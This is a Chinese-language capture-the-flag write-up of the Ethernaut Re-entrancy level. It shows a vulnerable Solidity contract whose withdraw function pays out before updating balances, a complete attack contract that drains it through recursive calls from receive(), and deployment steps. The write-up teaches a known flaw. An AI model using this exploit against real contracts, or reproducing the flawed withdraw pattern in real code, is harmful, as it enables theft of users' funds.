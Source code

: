 # Re-entrancy
Re-entrancy這一關要求我們將合約內的所有資產全部竊走，主要考察的還是fallback的相關知識，讓我們先看代碼。

## 合约代碼
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
## 代碼分析
這是一個非常經典的重入攻擊的一關，首先找到可以用於提取Ether的代碼，其實就是在`withdraw`函數。我們來看一下`withdraw`函數的內部：
```
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```
可以看到，最開始有一個條件限制，當`msg.sender` map的`balances`值大於我們要提取的`_amount`時，合約會向`msg.sender`用`call`的方式轉移`_amount`數量的Ether。在`msg.sender`收到Ether之後，`msg.sender`的`balances`會減去提取的`_amount`數量。

這裡的問題在於我們可以`msg.sender`是先獲得了`_amount`數量的Ether,然後再從`balances`減去`_amount`的數量。我們可以利用fallback，在我們收到Ether之後，利用fallback函數再次調用`withdraw`函數，這樣就是一直`withdraw`直到`Reentrance`合約內部的Ether取完為止。

```
if(result) {
        _amount;
      }
```
這裡稍微提一下這一段，這一段的其實可以省略。存在的意義我猜是作者希望編譯器不發出警告，因為如果不寫這一小段的話，編譯器會警告我們沒有使用到`result`這個變量。


## 攻擊代碼
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface IReentrance {
    function donate(address) external payable;
    function withdraw(uint256) external;
}

contract Attack {
    IReentrance private immutable target;

    constructor(address _target) {
        target = IReentrance(_target);
    }

    // NOTE: attack cannot be called inside constructor
    function attack() external payable {
        target.donate{value: 100000000000000}(address(this));
        target.withdraw(100000000000000);

        require(address(target).balance == 0, "target balance > 0");
        selfdestruct(payable(msg.sender)); //將攻擊合約內的餘額全部返還到攻擊者的地址
    }

    receive() external payable {
        uint256 amount = min(100000000000000, address(target).balance);
        if (amount > 0) {
            target.withdraw(amount);
        }
    }

    function min(uint256 x, uint256 y) private pure returns (uint256) {
        return x <= y ? x : y;
    }
}

```

## 攻擊過程
1. 部署攻擊合約, 部署的入參為目標合約的地址
2. 使用`attack`函數攻擊目標合約
3. 完成任務
